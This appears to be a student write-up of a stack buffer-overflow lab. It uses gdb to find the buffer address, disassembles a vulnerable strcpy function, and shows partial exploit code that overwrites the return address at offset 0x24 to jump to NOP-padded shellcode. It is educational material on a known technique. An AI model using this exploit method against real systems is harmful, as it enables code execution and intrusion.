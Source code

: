 To complete the program, we need to use `gdb` to analyze the stack of the `stack` program.

```shell
gdb stack
break main
run
# when it comes to sub esp, 0x214
# it must be the start of char str[517]
stepi
```

so we get the address of str_start :`0xbfffeb30`; 

use `disasemble bof` we can find

```shell
gdb-peda$ disassemble bof
Dump of assembler code for function bof:
   0x080484bb <+0>:	push   ebp
   0x080484bc <+1>:	mov    ebp,esp
   0x080484be <+3>:	sub    esp,0x28
   0x080484c1 <+6>:	sub    esp,0x8
   0x080484c4 <+9>:	push   DWORD PTR [ebp+0x8]
   0x080484c7 <+12>:	lea    eax,[ebp-0x20]
   0x080484ca <+15>:	push   eax
   0x080484cb <+16>:	call   0x8048370 <strcpy@plt>
   0x080484d0 <+21>:	add    esp,0x10
   0x080484d3 <+24>:	mov    eax,0x1
   0x080484d8 <+29>:	leave  
   0x080484d9 <+30>:	ret 
```

before calling the `bof()`, the program push the only parameter into stack(the str[] start address); and then push return address into stack; then coming into the `bof` function; push old ebp into stack; ebp -> new ebp; esp -= 0x28; so the stack will looks like:

```markdown
|    ...		  |high address
|   str addr	  |<- old esp
|	ret addr	  |
|   old edp	      |
|    ...          |
|  	 ...  		  |
|buffer start addr|<-esp = old esp -0x28
```

so we can find that **the position of return address = buffer start address + 0x24**, that is where we need to modify.

So we complete the code:

```c
/* exploit.c  */
...
void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here */ 
    //fill the shellcode address to buffer+0x24
    strcpy(buffer + 0x100, shellcode);
    strcpy(buffer + 0x24, "\x30\xec\xff\xbf");

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
```